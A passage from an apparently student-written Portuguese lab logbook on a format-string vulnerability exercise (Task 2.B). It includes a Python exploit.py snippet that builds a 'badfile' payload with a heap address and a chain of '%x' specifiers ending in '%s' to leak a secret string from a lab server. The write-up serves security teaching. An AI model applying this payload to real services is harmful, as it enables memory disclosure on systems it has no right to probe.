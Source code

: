 ##### Resultado

Foram necessários 64 especificadores de formato `%x` para que o programa do servidor imprimisse os primeiros quatro bytes da entrada.

### Task 2.B: Imprimindo o Endereço de Retorno

Há uma mensagem secreta (uma string) armazenada na área de heap, e pode encontrar o endereço desta string na saída do servidor. O seu trabalho é imprimir esta mensagem secreta. Para alcançar este objetivo, precisa colocar o endereço (em formato binário) da mensagem secreta na string formatada. A maioria dos computadores são máquinas little-endian, então para armazenar um endereço `0xAABBCCDD` (quatro bytes numa máquina de 32 bits) na memória, o byte menos significativo `0xDD` é armazenado no endereço mais baixo, enquanto o byte mais significativo `0xAA` é armazenado no endereço mais alto. Portanto, quando armazenamos o endereço num buffer, precisamos salvá-lo nesta ordem: `0xDD`, `0xCC`, `0xBB`, e depois `0xAA`. Em Python, pode fazer o seguinte:

#### Código Utilizado no `exploit.py` para Task 2

```python

# Valor único para identificar na pilha
unique_number = 0x080b4008
content[0:4] = (unique_number).to_bytes(4, byteorder='little')

s = "%x " * 63 + "%s\n"
format_string = (s).encode("latin-1")
content[8:8 + len(format_string)] = format_string

# Save the payload to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

#### Procedimento

1. **Execução do `exploit.py`**:
   - Executamos o script e depois enviamos o ficheiro `badfile` ao servidor:
  ![Chamada do exploit.py](../img/logbook6-img3.png)
   - Saída esperada no contentor:
  ![Resultado do exploit.py](../img/logbook6-img6.png)

##### Resultado
